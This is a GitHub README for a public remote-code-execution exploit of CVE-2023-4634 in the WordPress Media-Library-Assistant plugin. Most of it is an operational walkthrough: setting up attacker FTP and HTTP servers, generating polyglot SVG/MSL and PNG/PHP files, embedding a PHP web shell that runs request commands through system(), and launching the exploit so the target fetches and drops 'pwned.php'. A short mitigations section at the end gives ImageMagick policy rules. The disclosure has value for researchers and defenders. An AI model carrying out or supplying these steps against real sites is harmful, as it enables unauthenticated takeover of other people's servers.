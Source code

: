 # CVE-2023-4634
RCE Exploit for Wordpress Plugin Media-Library Plugin < 3.10 (CVE-2023-4634)

# Info
Patrowl discovered An unauthenticated RCE Vulnerability on Media-Librairy-Assistant Wordpress Plugin in version < 3.10. 
The exploit is not trivial and requires just a little setup explained bellow. 

Global discover and exploitaiton of the exploit could be found in our blog: https://patrowl.io/blog-wordpress-media-library-rce-cve-2023-4634/

# Prerequisite of exploitaiton 
- Wordpress installed (all versions will work)
- Media-Library-Assistant in version < 3.10 (https://fr.wordpress.org/plugins/media-library-assistant/)
- Imagick libraries installed on the server 
- Default Imagick configuration
- external network connectivitiy 

# Detection
The detection of the vulnerability could be performed using a basic DNS check on a remote FTP server. The nuclei template could be found on : CVE-2023-4634.yaml.
```
nuclei -u http://x.x.x.x -t ./CVE-2023-4634.yaml
```

The complete exploitation and RCE could then be performed using the CVE-2023-4634.py script. 

Note: You can also use the script to trigger more simple exploitation such as LFI, just need to forge specific SVG and host it on your FTP, follow recommendations in our blog. 

# Usage
Install requirement:
```
python3 -m pip install -r requirements.txt
```

Then
```
python3 CVE-CVE-2023-4634.py -h
```

Gives you:
```console
usage: CVE-2023-4634 Exploit [-h] [--target [TARGET]] [--remoteftp [REMOTEFTP]] [--remotehttp [REMOTEHTTP]] [--svg_polyglot_name [SVG_POLYGLOT_NAME]] [--svg_exploiter_names [SVG_EXPLOITER_NAMES]] [--png_polyglot_name [PNG_POLYGLOT_NAME]] [--concurrency [CONCURRENCY]] [--generatesvg | --no-generatesvg] [--webserverpath WEBSERVERPATH]
                             [--exploitname EXPLOITNAME] [--generatepng | --no-generatepng] [--payload PAYLOAD]

Exploit CVE-2023-4634 on Media-Library-Assistant version < 3.10

options:
  -h, --help            show this help message and exit
  --target [TARGET]     URL of the Target, ex http://victimwordpress.org
  --remoteftp [REMOTEFTP]
                        URL of the remote FTP use to store SVGs files, ex ftp://X.X.X.X:PORT
  --remotehttp [REMOTEHTTP]
                        URL of the remote HTTP use to store the final Polyglot PNG/PHP file, ex http://X.X.X.X:PORT
  --svg_polyglot_name [SVG_POLYGLOT_NAME]
                        Name of the external polyglot SVG/MSL file used (for generation or final usage), example : poly.svg
  --svg_exploiter_names [SVG_EXPLOITER_NAMES]
                        Name of the external VID bruteforcers file use, the FUZZ part will be replaced by the first letter bruteforced (for generation or final usage), ex: exploiter_FUZZ.svg
  --png_polyglot_name [PNG_POLYGLOT_NAME]
                        Name of the external PNG/PHP to use (for generation or final usage), ex: exploiter_FUZZ.svg
  --concurrency [CONCURRENCY]
                        Number of concurrent long SVG conversion requests to make ( default 100 )
  --generatesvg, --no-generatesvg
                        Generate both polyglot SVG/MSL file and VID bruteforcer within the remote_ftp directory
  --webserverpath WEBSERVERPATH
                        Path of the webserver on the victim server (could be found with the LFI and wp-config file) example: /var/www/html
  --exploitname EXPLOITNAME
                        Dropped exploit name example: pwned.php
  --generatepng, --no-generatepng
                        Generate polyglot PNG/PHP file, integrate php file with -payload option in exploit-png folder
  --payload PAYLOAD     PHP Payload to integrate in the PNG file ex: <?php phpinfo(); ?>
```


Now to be working you need to setup on remote hosts:
- 1 FTP server hosting polyglot SVG/MSL and SVG/VID exploiters
- 1 HTTP server hosting the polyglot PNG/MSL

# Before exploitation
## Prepare your FTP Server
You can run a simple FTP server using Python :

```console
python3 -m pyftpdlib -p 2122
[I 2023-08-31 12:24:17] concurrency model: async
[I 2023-08-31 12:24:17] masquerade (NAT) address: None
[I 2023-08-31 12:24:17] passive ports: None
[I 2023-08-31 12:24:17] >>> starting FTP server on 0.0.0.0:2122, pid=482661 <<<
```

Once setup, you need to add to your FTP servers the SVG/MSL polyglot files, and all SVG exploiters, you can easily generate them using the script:
```bash
python3 CVE-2023-4634.py --generatesvg --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg  --remotehttp http://192.168.1.164:8081 --png_polyglot_name virus.png  --webserverpath /var/www/html --exploitname pwned.php
```

It will generate in `remote_ftp` folder:
- poly.svg, polyglot SVG/MSL with non routed address that will take long time to be generated by the target, with a MSL that will store the `png_polyglot_name` from `remotettp` to the destination path (`webserverpath`+ `exploitname`) 
- all 64 SVG/VID exploiters  using the exploiter_FUZZ nomenclature where FUZZ will be replaced by bruteforced char

Note that the script will also copy the svg file with [0] at the end of it (poly.svg and poly.svg[0]). 
Both files are needed for the exploitation to be working. 

Put all the generated file (normal and [0]) in your FTP root directory of your FTP server. 
It should looks like this:
```console
ls remote_ftp/
exploiter_-.svg    exploiter_3.svg    exploiter_7.svg    exploiter_B.svg    exploiter_F.svg    exploiter_J.svg    exploiter_N.svg    exploiter_R.svg    exploiter_V.svg    exploiter_Z.svg
exploiter_-.svg[0] exploiter_3.svg[0] exploiter_7.svg[0] exploiter_B.svg[0] exploiter_F.svg[0] exploiter_J.svg[0] exploiter_N.svg[0] exploiter_R.svg[0] exploiter_V.svg[0] exploiter_Z.svg[0]
exploiter_0.svg    exploiter_4.svg    exploiter_8.svg    exploiter_C.svg    exploiter_G.svg    exploiter_K.svg    exploiter_O.svg    exploiter_S.svg    exploiter_W.svg    exploiter__.svg
exploiter_0.svg[0] exploiter_4.svg[0] exploiter_8.svg[0] exploiter_C.svg[0] exploiter_G.svg[0] exploiter_K.svg[0] exploiter_O.svg[0] exploiter_S.svg[0] exploiter_W.svg[0] exploiter__.svg[0]
exploiter_1.svg    exploiter_5.svg    exploiter_9.svg    exploiter_D.svg    exploiter_H.svg    exploiter_L.svg    exploiter_P.svg    exploiter_T.svg    exploiter_X.svg    poly.svg
exploiter_1.svg[0] exploiter_5.svg[0] exploiter_9.svg[0] exploiter_D.svg[0] exploiter_H.svg[0] exploiter_L.svg[0] exploiter_P.svg[0] exploiter_T.svg[0] exploiter_X.svg[0] poly.svg[0]
exploiter_2.svg    exploiter_6.svg    exploiter_A.svg    exploiter_E.svg    exploiter_I.svg    exploiter_M.svg    exploiter_Q.svg    exploiter_U.svg    exploiter_Y.svg
exploiter_2.svg[0] exploiter_6.svg[0] exploiter_A.svg[0] exploiter_E.svg[0] exploiter_I.svg[0] exploiter_M.svg[0] exploiter_Q.svg[0] exploiter_U.svg[0] exploiter_Y.svg[0]
```

## Prepare your HTTP Server
You can run a simple HTTP server using Python:
```console
python3 -m http.server -p 8081
[I 2023-08-31 12:24:17] concurrency model: async
[I 2023-08-31 12:24:17] masquerade (NAT) address: None
[I 2023-08-31 12:24:17] passive ports: None
[I 2023-08-31 12:24:17] >>> starting FTP server on 0.0.0.0:2122, pid=482661 <<<
```

You just need to add your polyglot PNG/PHP file. You can also use the script to genrate the file and include the wanted payload:
```bash
python3 CVE-2023-4634.py --generatepng --payload "<?php if(isset(\$_REQUEST['cmd'])){ echo \"<pre>\"; \$cmd = (\$_REQUEST['cmd']); system(\$cmd); echo \"</pre>\"; die; }?>" --png_polyglot_name virus.png
```

# Exploit
Now that both remote FTP server and HTTP server are ready, you can lauch exploitation on vulnerable target (the script will check if the target is using a vulnerable version of the plugins). 
Example:
```bash
python3 CVE-2023-4634.py --target http://127.0.0.1 --remoteftp ftp://192.168.1.164:2122 --remotehttp http://192.168.1.164:8081 --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg --png_polyglot_name virus.png  --exploitname pwned.php
```

And if everything is ok, you should have your `exploitname` dropped within the `webserverpath` (depend on how you configure your exploit)
Enjoy!

# Video Clip
I've made a video clip. 


https://github.com/Patrowl/CVE-2023-4634/assets/15944951/6f9d356f-f0ec-48df-9037-5f8a4b64e44f


# Mitigations
- Upgrade to the latest version of the plugins (https://fr.wordpress.org/plugins/media-library-assistant/)
- Reinforce Imagick security policy by disable dangerous file to be converted such as : "MSL, MSVG, MVG, PS, PDF, RSVG, SVG, XPS, VID"
Could be done by adding 

```xml
  <policy domain="coder" rights="none" pattern="SVG" />
  <policy domain="coder" rights="none" pattern="MSL" />
  <policy domain="coder" rights="none" pattern="MSVG" />
  <policy domain="coder" rights="none" pattern="MVG" />
  <policy domain="coder" rights="none" pattern="VID" />

```
To 
```
/etc/ImageMagick-X/policy.xml
```
